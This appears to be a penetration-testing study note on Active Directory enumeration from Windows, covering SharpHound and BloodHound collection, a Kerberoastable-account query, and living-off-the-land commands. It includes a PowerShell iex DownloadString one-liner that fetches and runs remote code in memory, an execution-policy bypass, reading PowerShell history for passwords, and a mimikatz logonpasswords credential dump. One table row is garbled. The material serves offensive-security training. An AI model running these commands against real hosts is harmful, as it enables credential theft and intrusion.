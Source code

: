### BloodHound 

BloodHound is also aviable for Windows hosts. Executed as:
```console
PS C:\zeropio> .\SharpHound.exe --help
```

We can start the SharpHound.exe collector:
```console
PS C:\zeropio> .\SharpHound.exe -c All --zipfilename <TARGET>
```

We can send the data to our host or even in the BloodHound GUI from Windows, to use **neo4j**. Inside it, the query *Find Computers with Unsupported Operating Systems* is great for finding outdated and unsupported operating systems running legacy software.  We can run the query *Find Computers where Domain Users are Local Admin* to quickly see if there are any hosts where all users have local admin rights.

If we want to find the Kerberoastable accounts, inside the *Raw Query*:
```
MATCH (n:User)WHERE n.hasspn=true
RETURN n
```

## Living Off the Land 

This means to do all we can do it, without having access to internet or downloading our tools from our host. 

### CMD

First, we can do a basic enumeration commands: 

| **Command**   | **Description**    |
|--------------- | --------------- |
| `hostname` | Prints the PC's Name |
| `[System.Environment]::OSVersion.Version` |	Prints out the OS version and revision level |
| `wmic qfe get Caption,Description,HotFixID,InstalledOn` |	Prints the patches and hotfixes applied to the host |
| `ipconfig /all` |	Prints out network adapter state and configurations |
| `set %USERDOMAIN%` |	Displays the domain name to which the host belongs (ran from CMD-prompt) |
| `set %logonserver%` |	Prints out the name of the Domain controller the host checks in with (ran from CMD-prompt) |

We can also use the command `systeminfo` to get a overview of it.

### PowerShell

The Powershell can be a helpful tool also:

| **Cmd-let**   | **Description**    |
|--------------- | --------------- |
| `Get-Module` | Lists available modules loaded for use. |
| `Get-ExecutionPolicy -List` |	Will print the execution policy settings for each scope on a host. |
| `Set-ExecutionPolicy Bypass -Scope Process` |	This will change the policy for our current process using the -Scope parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because we won't be making a permanent change to the victim host. |
| `Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt` |	With this string, we can get the specified user's PowerShell history. This can be quite helpful as the command history may contain passwords or point us towards configuration files or scripts that contain passwords. |
| `Get-ChildItem Env: | ft Key,Value	Return environment values such as key paths, users, computer information, etc.
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"` |	This is a quick and easy way to download a file from the web using PowerShell and call it from memory. |


[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit 
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm
